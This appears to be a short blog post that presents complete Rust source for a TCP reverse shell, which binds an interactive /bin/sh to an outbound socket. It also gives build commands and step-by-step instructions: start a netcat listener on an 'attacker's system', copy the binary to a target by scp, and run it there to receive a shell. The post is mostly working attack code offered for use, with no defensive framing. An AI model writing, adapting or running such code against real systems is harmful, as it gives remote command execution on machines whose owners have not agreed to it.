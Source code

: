 ```yaml
---
layout: post
title:  "A TCP Reverse Shell with Rust"
date:   2022-07-31 00:30:00
tags: rust tcp reverse shell
---
```


A reverse shell, also known as a remote shell or “connect-back shell” is used to initiate a shell session and execute commands in a target system.

![IPS](/img/tcp_reverse_shell/tcp_reverse_shell.png)

There are many examples available in [different programming languages](https://www.revshells.com/), or it is possible generating reverse shells with tools like [meterpreter](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/payload/osx/x64/meterpreter/reverse_tcp.md) and the metasploit framework.

Furthermore, reverse shells can be implemented for any operating system and network protocols such as TCP, UDP, ICMP or over encrypted channels with SSL.

However, I'm going to use the Rust programming language and the cargo tool to generate a small program that can be 
executed as a TCP reverse shell in the target's system. Additionally, this code can be compiled for most of the Unix flavors. 

# TCP Reverse Shell

{% highlight rust linenos %}
use std::env;
use std::fs::File;
use std::net::TcpStream;
use std::os::unix::io::{FromRawFd, RawFd};
use std::os::unix::prelude::AsRawFd;
use std::process::Command;

fn main() {
    let args: Vec<String> = env::args().collect();
    if args.len() < 2 {
        panic!("Usage: reverse_shell <IP> <PORT>");
    }

    let ip = &args[1];
    let port = &args[2];

    let tcp_stream = match TcpStream::connect(format!("{ip}:{port}")) {
        Err(why) => panic!("Connection error: {why}"),
        Ok(tcp_stream) => tcp_stream,
    };

    let raw_fd: RawFd = tcp_stream.as_raw_fd();

    let mut rev_shell = match Command::new("/bin/sh")
        .arg("-i")
        .stdin(unsafe { File::from_raw_fd(raw_fd) })
        .stdout(unsafe { File::from_raw_fd(raw_fd) })
        .stderr(unsafe { File::from_raw_fd(raw_fd) })
        .spawn()
    {
        Err(why) => panic!("Error: {why}"),
        Ok(child) => child,
    };

    match rev_shell.wait() {
        Err(why) => panic!("Error: {why}"),
        Ok(exit_status) => exit_status,
    };
}
{% endhighlight %}

## How to compile the code

{% highlight bash linenos %}
cargo build --release
cargo install
{% endhighlight %}

* [Source code](/src/tcp_reverse_shell/reverse_shell.tar.xz)  

**Note:* if you require to compile the code from a unix flavor to run in another one, please follow the [Rust cross-compilation instructions](https://rust-lang.github.io/rustup/cross-compilation.html).

## How to test the TCP Reverse Shell

**1** Run a TCP server listening on the 4321 port in the attacker's system.
  {% highlight bash linenos %}
    netcat -l -s 10.10.10.1 -p 4321
  {% endhighlight %}

**2**  Copy the reverse shell program to the target's system.
  {% highlight bash linenos %}
    scp reverse_shell demo@10.10.10.2:
  {% endhighlight %}

**3**  Run the reverse_shell from the target's system
  {% highlight bash linenos %}
    ./reverse_shell  10.10.10.1 4321
  {% endhighlight %}

**4** The TCP server will receive a shell session in the attacker's system.


I hope you have enjoyed this small piece of code and have happy weekend.

# References

* [Install Rust](https://www.rust-lang.org/tools/install)
* [The Cargo Book](https://doc.rust-lang.org/cargo/)
* [Module std::fs](https://doc.rust-lang.org/std/fs/)
* [Module std::net](https://doc.rust-lang.org/std/net/)
* [Module std::process](https://docs.rs/rustc-std-workspace-std/1.0.1/std/process/index.html)

